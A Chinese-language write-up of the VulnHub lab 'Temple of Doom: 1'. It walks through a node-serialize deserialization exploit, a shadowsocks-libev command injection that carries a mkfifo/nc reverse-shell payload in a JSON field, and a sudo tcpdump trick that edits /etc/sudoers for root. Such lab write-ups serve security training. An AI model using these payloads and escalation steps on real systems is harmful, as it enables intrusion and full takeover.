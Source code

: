 # Temple of Doom: 1

2024-4-27 https://www.vulnhub.com/entry/temple-of-doom-1,243/

difficulty: Easy/Intermediate

## IP

192.168.10.176

## Scan

Open Port -> 22,666

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 956804c7420304cd004e367ecd4f66ea (RSA)
|   256 c3065f7f17b6cbbc796b4646cc113a7d (ECDSA)
|_  256 630c288825d5481982bbbd72c66c6850 (ED25519)
666/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

22 端口不能匿名访问，666 端口对应的是一个 nodejs express 服务。

访问 http://192.168.10.176:666/ 页面上提示：Under Construction, Come Back Later!

对 666 web 端口扫描下目录，没有扫描到其他目录信息。

看样子我们的攻击路径，就是在这个 nodejs 服务上了。再次访问后出现了错误提示：

```
SyntaxError: Unexpected token F in JSON at position 79
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/nodeadmin/.web/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/nodeadmin/.web/server.js:12:29
    at Layer.handle [as handle_request] (/home/nodeadmin/.web/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/nodeadmin/.web/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/nodeadmin/.web/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/nodeadmin/.web/node_modules/express/lib/router/layer.js:95:5)
    at /home/nodeadmin/.web/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/nodeadmin/.web/node_modules/express/lib/router/index.js:335:12)
    at next (/home/nodeadmin/.web/node_modules/express/lib/router/index.js:275:10)
```

根据上面错误提示，可以看到此服务使用了 json 序列化，并且在/home 目录下，发现了一个用户 nodeadmin。

具体看以下请求中的访问信息：

```
GET / HTTP/1.1
Host: 192.168.10.176:666
Cookie: profile=eyJ1c2VybmFtZSI6IkFkbWluIiwiY3NyZnRva2VuIjoidTMydDRvM3RiM2dnNDMxZnMzNGdnZGdjaGp3bnphMGw9IiwiRXhwaXJlcz0iOkZyaWRheSwgMTMgT2N0IDIwMTggMDA6MDA6MDAgR01UIn0
Connection: close
```

看到上面的 cookie 的 profile 貌似是 base64 编码，解码后看看是什么：

```
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}
```

应该是 json 这里，是否我们能进行相关利用。经过查找，发现了相关的漏洞描述：Exploiting Node.js deserialization bug for Remote Code Execution (CVE-2017-5941)

对应的漏洞利用说明 https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf

```
Node.JS - 'node-serialize' Remote Code Execution (2) | nodejs/webapps/49552.py
```

修改 url 和 payload 中的 ip 和端口之后，在 kali 上进行监听接收反弹，执行此 py 脚本看能否进行利用。

```
python2 49552.py
```

执行后，我们在 kali 上接收到了反弹的连接，继续进行权限提升，先升级下 tty：python -c 'import pty; pty.spawn("/bin/bash")'

在 /etc/passwd 中发现了其他 2 个用户：

```
root:x:0:0:root:/root:/bin/bash
nodeadmin:x:1001:1001::/home/nodeadmin:/bin/bash
fireman:x:1002:1002::/home/fireman:/bin/bash
```

但是 fireman 的目录我们进不去。

经过信息侦察，没有直接发现密码之类的信息，也没有 SUID 之类的特权程序。但是，发现 fireman 运行了 /usr/local/bin/ss-manager，看看这个程序有没有漏洞利用点， ss-manager 的版本为 shadowsocks-libev 3.1.0，在 searchsploit 中找到了对应版本的 exp：

```
shadowsocks-libev 3.1.0 - Command Execution | linux/local/43006.txt
```

先在我们的 kali 上建立监听：nc -lvnp 7777

发现 ss-manager 运行在 8839 端口上，在目标机器上执行下面的代码：

```
nc -u 127.0.0.1 8839

# nc 连接成功后，输入下面的代码
add: {"server_port":8003, "password":"test", "method":"||rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.10.3 7777 >/tmp/f||"}
```

这时，我们 7777 监听上就得到的反弹的 shell 会话：

```
sh-4.4$ id
id
uid=1002(fireman) gid=1002(fireman) groups=1002(fireman)
```

查看 fireman 的特殊权限：

```
[fireman@localhost ~]$ sudo -l

User fireman may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/iptables
    (ALL) NOPASSWD: /usr/bin/nmcli
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

发现 tcpdump 可以有 sudo 的提权利用：

```
echo 'echo "fireman ALL=(ALL)NOPASSWD:ALL" >> /etc/sudoers' > /tmp/shell
chmod +x /tmp/shell
sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root
```

最终 fireman 获得了超级权限：

```
sudo -l
User fireman may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/iptables
    (ALL) NOPASSWD: /usr/bin/nmcli
    (ALL) NOPASSWD: /usr/sbin/tcpdump
    (ALL) NOPASSWD: ALL

sudo su
```

